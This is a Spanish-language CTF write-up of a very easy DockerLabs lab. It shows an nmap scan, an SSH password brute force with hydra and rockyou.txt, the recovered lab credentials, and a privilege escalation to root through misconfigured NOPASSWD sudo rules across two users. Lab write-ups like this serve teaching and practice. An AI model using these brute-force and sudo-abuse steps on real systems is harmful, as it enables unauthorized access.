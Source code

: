 # Write-up - Escalada con Pivoting de Usuario

**Sitio:** DockerLabs  
**Dificultad:** Muy Fácil  
**Fecha:** 27/05/2025  
**Aprendizaje:** Escalé privilegios pivotando de un usuario con acceso limitado a otro con configuraciones de sudo mal configuradas. Esta técnica es importante para identificar vectores de escalada horizontal y vertical dentro de un sistema.

---

## Enumeración y acceso inicial

### 1. Escaneo de puertos

`nmap -sSV -O --open 172.17.0.2`

> Resultado:

`22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.5`

`80/tcp open http Apache httpd 2.4.58`

`SO Inferido: Linux`

### 2. Análisis web

Se accede a `http://172.17.0.2` y se encuentra como pista la palabra "tails" en la página principal.

### 3. Fuerza bruta SSH

`hydra -l tails -P rockyou.txt ssh://172.17.0.2`

Credenciales encontradas:  
Usuario: `tails`  
Contraseña: `3117548331`  

### 4. Acceso por SSH

`ssh -l tails 172.17.0.2`

## Escalada de privilegios (pivoting)

5. Verificar permisos sudo del usuario `tails`

`sudo -l`

> Resultado

`User tails may run the following commands on 1a7b08d71419: (sonic) NOPASSWD: ALL`

El usuario `tails` puede ejecutar cualquier comando como el usuario sonic sin necesidad de contraseña.

### 6. Cambiar a la shell del usuario sonic

`sudo -u sonic /bin/bash`

### 7. Verificar permisos sudo del usuario sonic

`sudo -l`

> Resultado:

`User sonic may run the following commands on 1a7b08d71419: (ALL) NOPASSWD: ALL`

El usuario `sonic` puede ejecutar cualquier comando como cualquier usuario, incluyendo `root`.

### 8. Obtener acceso como root

`sudo su`

> whoami = root
